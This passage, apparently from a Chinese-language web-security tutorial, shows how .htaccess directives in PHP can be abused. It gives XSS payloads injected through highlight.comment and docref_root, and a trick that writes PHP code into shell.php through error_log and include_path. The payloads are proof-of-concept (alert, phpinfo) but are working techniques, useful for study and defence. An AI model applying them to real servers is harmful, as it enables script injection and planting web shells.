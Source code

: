 访问 shell.xx 即可弹出计算器：

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7d1cJs2NgO1Jby9UsIxrY7duAIEhuU1BibV9Kwk3f5pZbCt6jehAiaibb1PyRTg7TChzZlIaAyDn1M4Q/640?wx_fmt=png)

**XSS**
-------

### 利用 highlight_file

```
php_value highlight.comment '"><script>alert(1);</script>'
```

test.php 中的内容为：

```
<?php
highlight_file(__FILE__);
// comment
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7d1cJs2NgO1Jby9UsIxrY7d0K7iaX3EpjkdBZJ35kqvG8g2bjBguZVMGlCwniacWfiaDa6oVr85h8PCw/640?wx_fmt=png)

### 利用错误消息链接，test.php 中的内容为：

```
<?php
include('foo'); # foo报错
```

.htaccess 中的内容：

```
php_flag display_errors 1
php_flag html_errors 1
php_value docref_root "'><script>alert(1);</script>"
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7d1cJs2NgO1Jby9UsIxrY7dY6eFGevuqXkGrvBBS461pULpBOJnFolQ1Ztp3mN2tEgHLl5Quaic0Fg/640?wx_fmt=png)

自定义错误文件
-------

error.php：

```
<?php include('shell'); #报错页面
```

.htaccess：

```
php_value error_log /var/www/html/shell.php
php_value include_path "<?php phpinfo(); __halt_compiler();"
```

访问 error.php，会报错并记录在 shell.php 文件中
